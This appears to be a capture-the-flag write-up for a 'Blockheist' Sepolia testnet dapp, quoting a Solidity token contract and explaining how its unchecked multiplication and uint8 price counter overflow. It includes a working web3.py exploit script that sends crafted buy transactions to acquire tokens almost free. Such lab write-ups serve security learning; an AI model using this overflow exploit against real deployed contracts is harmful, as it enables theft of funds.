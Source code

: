 ### Blockheist
![Blockheist CTFD](../.assets/blockheist_1.png)

The landing page of the webapp hints at a crypto website with the Connect Wallet button. 

![Blockheist landing](../.assets/blockheist_2.png)

The page's source code hints at it being EVM based with the use of ethersjs

![ethers js](../.assets/blockheist_3.png)

Opening a wallet provider and connecting to the dapp reveals that it's a sepolia ethereum dapp. 

Clicking `buy` flag reveals the user must own 1e75 Haxor token, which costs 4.7e+59 ETH

![dapp](../.assets/blockheist_4.png)

Searching for a the EVM wallet address format reveals a contract address (ca).

![devtools](../.assets/blockheist_5.png)

Checking the ca on [etherscan](https://sepolia.etherscan.io/address/0x2876ad7baf96864c992150ff16f909ab12440adb) reveals the contract source code.


```solidity
// Stripped to only important sections of contract source code
pragma solidity ^0.7.6;

contract Haxor {
    mapping (address => uint256) private userBalances;
    uint8 public TOKEN_PRICE = 2 wei;
    function buy(uint256 _tokenToBuy) external payable {
        require(
            msg.value == _tokenToBuy * TOKEN_PRICE, 
            string(abi.encodePacked("error ", _tokenToBuy, msg.value))
        );

        userBalances[msg.sender] += _tokenToBuy;
        TOKEN_PRICE++;
    }
    function getUserBalance(address _user) external view returns (uint256) {
        return userBalances[_user];
    }
```
The Important things to note from the code are:
1. The \_TOKEN\_PRICE\_ variable is a uint8 and the userBalances mapping has a uint256 dict value type.
2. The buy function uses unsafe maths to verify the amount being paid.  The unsafe multiplication will overflow back to 0 if its result is greater than 2^256. The user wallet controls one of the variables of the multiplication. 
3. Every buy irreversibly increases the cost of each Haxor token by 1. The unsafe addition will overflow the uint8 TOKEN\_PRICE variable and reset it to 0 after 2^8 - 2(2 Wei is the starting price of haxor) 

A simple script to interact with the contract

```python3
contract_abi = [] #Replace with contract ABI. Get from etherscan link
from web3 import HTTPProvider, Web3

CHAIN_ID = 11155111 #Sepolia
ALCHEMY_URL = "" #Sepolia Ethereum Provdier Url
w3: Web3 = Web3(HTTPProvider(ALCHEMY_URL))
user_wallet = w3.eth.account.from_key("") #Replace with wallet private_key
CONTRACT_ADDRESS = Web3.to_checksum_address("0x2876ad7baf96864c992150ff16f909ab12440adb") # Contract address
TOKEN_CONTRACT = w3.eth.contract(address=CONTRACT_ADDRESS, abi=contract_abi)
MAX_FEE = int(w3.eth.gas_price * 1.1) 

wallet_current_balance = TOKEN_CONTRACT.functions.getUserBalance(user_wallet.address).call()
print(wallet_current_balance)
current_haxor_price = TOKEN_CONTRACT.functions.TOKEN_PRICE().call()
print(current_haxor_price)
uint_max = 2**256
wei_to_send = current_haxor_price - (uint_max % current_haxor_price)
amount_of_tokens_to_buy = (wei_to_send + uint_max) // current_haxor_price
if wallet_current_balance + amount_of_tokens_to_buy > 2**256:
   print(f"User balance will overflow back to 0")
   exit()

raw_data = TOKEN_CONTRACT.encodeABI("buy", args=[amount_of_tokens_to_buy])
tx = {
            "to": w3.to_checksum_address(CONTRACT_ADDRESS),
            "value": wei_to_send,
            "gas": 400_000,
            "maxFeePerGas":MAX_FEE,
            "maxPriorityFeePerGas": Web3.to_wei(0.0005, "gwei"),
            "nonce": w3.eth.get_transaction_count(user_wallet.address),
            "chainId": CHAIN_ID,
            "data": raw_data,
            "type": 2,
        }
print(tx)
signed_txn = w3.eth.account.sign_transaction(tx, user_wallet._private_key)
txn_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
print(w3.to_hex(txn_hash)) # Check hash manually

```

With each run of the script, the user balance increases exponentially until the wallet can afford the flag

![solution](../.assets/blockheist_6.png)